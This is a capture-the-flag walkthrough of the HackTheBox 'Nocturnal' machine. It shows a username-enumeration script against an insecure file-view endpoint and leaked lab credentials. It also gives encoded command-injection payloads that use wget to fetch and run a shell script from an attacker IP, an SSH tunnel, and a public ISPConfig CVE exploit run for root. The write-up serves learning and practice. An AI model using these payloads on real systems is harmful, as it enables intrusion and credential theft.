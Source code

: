 ```yaml
---
title: Nocturnal
tags:
  - HackTheBox
  - Easy
  - Linux
  - Command-Injection
  - Tunnelling
  - CVE
date: 2025-04-26T00:00:00Z
---
```

![](Pasted%20image%2020250426112535.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- nocturnal.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
```

So I checked its website:

![](Pasted%20image%2020250426112746.png)

It seems to be a place to upload files, so I created an account and logged in:

![](Pasted%20image%2020250426112957.png)

![](Pasted%20image%2020250426113018.png)

I tried to upload a `.svg` but the following formats are only accepted:

![](Pasted%20image%2020250426113108.png)

I captured the request of uploading a file and noted that there is being made a petition to `/view.php?username=USER&file=FILE`:

![](Pasted%20image%2020250426123617.png)

Now if I try to modify my username and I try a non-existent one I get the message "User not found":

![](Pasted%20image%2020250426123741.png)

But I can guess the admin username and then check a different message, indicating that the file is not existing:

![](Pasted%20image%2020250426123826.png)

## Exploitation

I can try to search for existing users to check their private files. I'll use `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`. To do this I'll use the following script:

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, sys

# Variables
wordlist = '/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt'
count = 0
found = []

# Processing input
if len(sys.argv) != 2:
    print("Make user to register and log is a a user to get a session cookie")
    print("Usage: python3 enumusers.py <cookie>")
    sys.exit(1)
else:
    print("NOTE: If \"Usernames found\" is too large or doesn't find any users, you may need to reset the box and try again. \n")
    cookie = sys.argv[1]

# Ctr + c 
def df_handler(sig,frame):
    log.info('\n[!] Exiting... \n')
    sys.exit(1)

signal.signal(signal.SIGINT, df_handler)

# Starting progress bars
prog_enum = log.progress('Enumerating usernames')
prog_found = log.progress('Usernames found')

# Start enumeration
file = open(wordlist, 'r')
while True:
    sleep(0.5)
    count += 1
    username = file.readline()[0:-1]
    enumURL = "http://nocturnal.htb/view.php?username="+username+"&file=pwn.xlsx"
    cookies = {'PHPSESSID':cookie}
    r = requests.get(enumURL, cookies=cookies)
    
    prog_enum.status(username)

    if "File does not exist." in r.text:
        found.append(username)
        prog_found.status(','.join(found))

    if not username:
        break

file.close()    
```

Two users are found: `admin` and `amanda`:

![](Pasted%20image%2020250426125645.png)

So now I can inspect which files has the user `amanda`:

![](Pasted%20image%2020250426181414.png)

There is a file called `privacy.odt`:

![](Pasted%20image%2020250426181508.png)

So now Ill send the petition to the Intercept and then download the file:

![](Pasted%20image%2020250426181632.png)

> So now got new credentials :D `amanda:arHkG7HAI68X8s1J`

![](Pasted%20image%2020250426182109.png)

Now I can try to access the admin panel:

![](Pasted%20image%2020250426182139.png)

It seems to be the website structure. I can see the contents of any file listed:

![](Pasted%20image%2020250426182243.png)

I can also create backups protected with password:

![](Pasted%20image%2020250426182624.png)

So I checked the content of `admin.php` to see the command of the backup creation:

```shell
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

Notice that we can inject code inside `password` field but there is a function called `cleanEntry` which filters what we input:

![](Pasted%20image%2020250426184543.png)

So we can try sombinations of the following payload:

```shell
;bash -c "id"
# The following one worked
%0abash%09-c%09"id"%0a
```

![](Pasted%20image%2020250426184841.png)

> I got RCE! Now it's time to get a reverse shell. To do that I'll use the following command:

```shell
# First upload a shell (basic one)
%0abash%09-c%09"wget%09http://10.10.14.7:8090/shell.sh%09"%0a

# Then execute it
%0abash%09-c%09"bash%09shell.sh"%0a
```

> Got a reverse shell :D

![](Pasted%20image%2020250426191341.png)

## Pivoting

There is a user called `tobias` inside the machine. I noticed a database called `nocturnal_database.db` inside `/var/www/nocturnal_database`. So I downloaded it and inspected it with SQLite viewer:

![](Pasted%20image%2020250426191827.png)

Found password hashes, so I tried to compare them:

![](Pasted%20image%2020250426191925.png)

> Got ssh credentials: `tobias:slowmotionapocalypse`

### User flag

![](Pasted%20image%2020250426192120.png)

## Privilege Escalation

I performed some enumeration around the machine, and discovered something running on port 8080:

![](Pasted%20image%2020250426192627.png)

So I'll forward port 8080 to my machine:

```shell
ssh -L 8888:127.0.0.1:8080 tobias@nocturnal.htb
```

![](Pasted%20image%2020250426192848.png)

I tested the following credentials: `admin:slowmotionapocalypse`:

![](Pasted%20image%2020250426193445.png)

I searched for "ispconfig cve" and found this [CVE-2023-46818 PoC](https://github.com/ajdumanhug/CVE-2023-46818). So I downloaded the script and executed it:

```shell
python3 cve.py http://127.0.0.1:8888 admin slowmotionapocalypse
```

![](Pasted%20image%2020250426193805.png)

### Root flag

![](Pasted%20image%2020250426193934.png)

==Machine pwned!==